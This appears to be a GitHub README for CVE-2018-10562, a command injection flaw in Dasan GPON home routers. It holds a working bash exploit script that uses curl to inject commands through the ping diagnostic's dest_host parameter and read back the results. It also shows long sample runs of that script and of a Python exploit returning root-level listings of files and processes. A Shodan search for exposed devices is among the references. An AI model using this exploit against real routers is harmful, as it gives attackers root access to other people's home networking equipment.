

# CVE-2018-10562

## Description

An issue was discovered on Dasan GPON home routers. Command Injection can occur via the dest_host parameter in a diag_action=ping request to a GponForm/diag_Form URI. Because the router saves ping results in /tmp and transmits them to the user when the user revisits /diag.html, it's quite simple to execute commands and retrieve their output.



```
#!/bin/bash
 
echo "[+] Sending the Command… "
curl -k -d "XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=\`$2\`;$2&ipv=0" $1/GponForm/diag_Form?images/ 2>/dev/null 1>/dev/null
echo "[+] Waiting...."
sleep 3
echo "[+] Retrieving the ouput...."
curl -k $1/diag.html?images/ 2>/dev/null | grep 'diag_result = ' | sed -e 's/\\n/\n/g'
```

```
$ bash gpon.sh http://192.168.1.100:8080/ "id"
[+] Sending the Command…
[+] Waiting....
[+] Retrieving the ouput....
diag_result = "uid=0(root) gid=0(root)nNo traceroute test.nnnping/traceroute finished.nn";
```

```
$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ls /"
INFO:__main__:sending payload: 127.0.0.1;`echo BGgw;ls /;echo BGgw`;
diag_result = "ping -c 4 -s 64 127.0.0.1;BGgw
bin
boot
bootimg
dev
etc
home
include
initrd
lib
linuxrc
man
mnt
opt
proc
root
sbin
sys
tmp
uImage
usr
var
web
BGgw;

$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ls /bin/"
INFO:__main__:sending payload: 127.0.0.1;`echo BMXr;ls /bin/;echo BMXr`;
diag_result = "ping -c 4 -s 64 127.0.0.1;BMXr
Console
EthMgr
GponCLI
GponSLID
LogMgr
MecMgr
MiscMgr
NetMgr
PonMgr
Ssp
TimerMgr
VmrMgr
WebMgr
ash
brctl
busybox
cat
catv
chgrp
chmod
chown
conntrack
cp
date
dd
df
dmesg
dnsmasq
dropbear
dsp
echo
egrep
false
fgrep
grep
gunzip
gzip
hostname
ip
ipaddr
iplink
iproute
iprule
iptables
iptables-restore
iptables-save
iptables-xml
iptunnel
kill
ln
ls
lsof
lspci
mReport
mkdir
mknod
mktemp
mount
mountpoint
mv
netstat
nice
ntpclient
pidof
ping
printenv
ps
pure-ftpd
pwd
rm
rmdir
sed
sh
sleep
stat
stty
sync
tar
tc
telnetd
touch
tr069Mgr
true
ttcp
umount
uname
usleep
vi
zcat
BMXr;

";

$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ls /sbin/"
INFO:__main__:sending payload: 127.0.0.1;`echo rXVS;ls /sbin/;echo rXVS`;
diag_result = "ping -c 4 -s 64 127.0.0.1;rXVS
arp
ath_wifi.sh
ath_wifi_aquila.sh
ez-ipupdate
fget
format
gdbnfs
halt
hostapd
ifconfig
ifrename
init
insmod
iwconfig
iwevent
iwgetid
iwlist
iwpriv
iwspy
logread
lsmod
memshow
modprobe
nbtscan
nfsstart
ntfs-3g
poweroff
pppd
pppoe
pppoe-config
pppoe-connect
pppoe-stop
reboot
repeater_pass_configuration
rg_setup.sh
rmmod
route
scsi_id
setup.sh
sysctl
syslogd
udev
udev_volume_id
udevd
udevsend
udevstart
udhcpc
upnpd
vconfig
wifi_cb
wifi_test
wlanconfig
wpatalk
rXVS;


$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ps"
INFO:__main__:sending payload: 127.0.0.1;`echo TFGQ;ps;echo TFGQ`;
diag_result = "ping -c 4 -s 64 127.0.0.1;TFGQ
  PID  Uid        VSZ Stat Command
    1 root       1136 S   init
    2 root            SWN [ksoftirqd/0]
    3 root            SW< [events/0]
    4 root            SW< [khelper]
    5 root            SW< [kthread]
   20 root            SW< [kblockd/0]
   23 root            SW< [khubd]
   40 root            SW  [pdflush]
   41 root            SW  [pdflush]
   42 root            SW< [kswapd0]
   43 root            SW< [aio/0]
   79 root            SW  [mtdblockd]
  183 root            SWN [jffs2_gcd_mtd1]
  187 root       1132 S   syslogd
  193 root        724 S < udevd
  407 root            SW< [voshwtimer/0]
  470 root       2116 S   /bin/GponCLI
  473 root       1808 S   /bin/telnetd
  476 root       1288 S   /bin/dropbear
  477 root       2116 S   /bin/GponCLI --script
  478 root       2116 S   /bin/GponCLI --hook
  479 root       1832 S   Ssp
  480 root       1832 S   Ssp
  481 root       1832 S < Ssp
  482 root       1856 S < /bin/TimerMgr -p 10 -s 0
  483 root       1856 S < /bin/TimerMgr -p 10 -s 0
  484 root       1856 S < /bin/TimerMgr -p 10 -s 0
  485 root       2836 S   /bin/LogMgr -p 20 -s 0
  486 root       2300 S   /bin/MiscMgr -p 20 -s 0
  496 root       3624 S   /bin/PonMgr -p 20 -s 0
  497 root       2308 S   /bin/NetMgr -p 20 -s 0
  550 root       3604 S < /bin/VmrMgr -p 10 -s 0
  551 root       3604 S < /bin/VmrMgr -p 10 -s 0
  552 root       3604 S < /bin/VmrMgr -p 10 -s 0
  553 root       3968 S   /bin/EthMgr -p 20 -s 0
  554 root       6360 S   /bin/tr069Mgr -p 20 -s 0
  573 root       6360 S   /bin/tr069Mgr -p 20 -s 0
  574 root       6360 S < /bin/tr069Mgr -p 20 -s 0
  575 root       6360 S < /bin/tr069Mgr -p 20 -s 0
  576 root       6360 S < /bin/tr069Mgr -p 20 -s 0
  577 root       2332 S   /bin/WebMgr -p 20 -s 0
  580 root       6336 S   /bin/MecMgr -p 20 -s 0
  607 root       3624 D   /bin/PonMgr -p 20 -s 0
  608 root       3624 S   /bin/PonMgr -p 20 -s 0
  609 root       3624 D < /bin/PonMgr -p 20 -s 0
  684 root       2308 S   /bin/NetMgr -p 20 -s 0
  685 root       2308 S   /bin/NetMgr -p 20 -s 0
  692 root       3604 S < /bin/VmrMgr -p 10 -s 0
  695 root            SW< [voip isr/0]
  698 root       3604 S < /bin/VmrMgr -p 10 -s 0
  701 root            SW< [TAPIevents/0]
  709 root            SW  [TAPIdxt_int]
  711 root       3604 S < /bin/VmrMgr -p 10 -s 0
  720 root       6336 S   /bin/MecMgr -p 20 -s 0
  722 root            SW< [brdg_wkq/0]
  996 root       1140 S   /bin/sh /sbin/pppoe-connect 0
 1005 root       1412 S   /sbin/pppd pty /sbin/pppoe -p /var/run/pppoe0.pid.ppp
 1006 root       1132 S   sh -c /sbin/pppoe -p /var/run/pppoe0.pid.pppoe -I wan
 1007 nobody      600 S   /sbin/pppoe -p /var/run/pppoe0.pid.pppoe -I wan0 -T 8
 1032 nobody      812 S   dnsmasq -6 /bin/mReport -C /tmp/dnsmasq.cfg -K
 1033 root        800 S   dnsmasq -6 /bin/mReport -C /tmp/dnsmasq.cfg -K
 1216 root       1320 S   upnpd ppp0 br0
 1217 root       1320 S   upnpd ppp0 br0
 1218 root       1320 S   upnpd ppp0 br0
 1220 root       1320 S   upnpd ppp0 br0
 1221 root       1320 S   upnpd ppp0 br0
 1222 root       1320 S   upnpd ppp0 br0
 1224 root       1320 S   upnpd ppp0 br0
 1226 root       1320 S   upnpd ppp0 br0
 1228 root       1320 S   upnpd ppp0 br0
 1229 root       1320 S   upnpd ppp0 br0
 1315 root       1240 S   hostapd -B /tmp/hostapd.conf
 6834 root       2332 S   /bin/WebMgr -p 20 -s 0
 8360 root       2332 S   /bin/WebMgr -p 20 -s 0
 8363 root       1132 S   sh -c echo "ping -c 4 -s 64 127.0.0.1;`echo TFGQ;ps;e
 8364 root       1132 S   sh -c echo "ping -c 4 -s 64 127.0.0.1;`echo TFGQ;ps;e
 8365 root       1136 R   ps
TFGQ;

";


$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ls /web/"
INFO:__main__:sending payload: 127.0.0.1;`echo Rbfg;ls /web/;echo Rbfg`;
diag_result = "ping -c 4 -s 64 127.0.0.1;Rbfg
html
Rbfg;

";

$ py3 exploit-CVE-2018-10562.py http://192.168.1.100:8080/ "ls /web/html/"
INFO:__main__:sending payload: 127.0.0.1;`echo dZad;ls /web/html/;echo dZad`;
diag_result = "ping -c 4 -s 64 127.0.0.1;dZad
backup.html
ddns.html
devinfo.html
diag.html
dmz_alg.html
dns_host.html
download
error.html
firewall.html
images
index.html
init.html
ip_filter.html
lan.html
landev.html
language.html
laninfo.html
log.html
login.html
login_spa.html
logo.html
logout.html
mac_filter.html
menu.html
nat.html
nat_portforwarding.html
ntp.html
password.html
poninfo.html
reboot.html
rebooting.html
route.html
script
slid.html
style
tab.html
template
tr069.html
upgrade.html
upnp.html
usb.html
wan.html
waninfo.html
wifi.html
dZad;

";
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2018-10562
- https://www.exploit-db.com/exploits/44576/
- https://www.vpnmentor.com/blog/critical-vulnerability-gpon-router/
- https://securityaffairs.co/wordpress/71987/hacking/gpon-home-routers-hack.html
- https://www.shodan.io/search?query=title%3A%22GPON+Home+Gateway%22
- https://paper.seebug.org/593/
- https://github.com/nixawk/labs
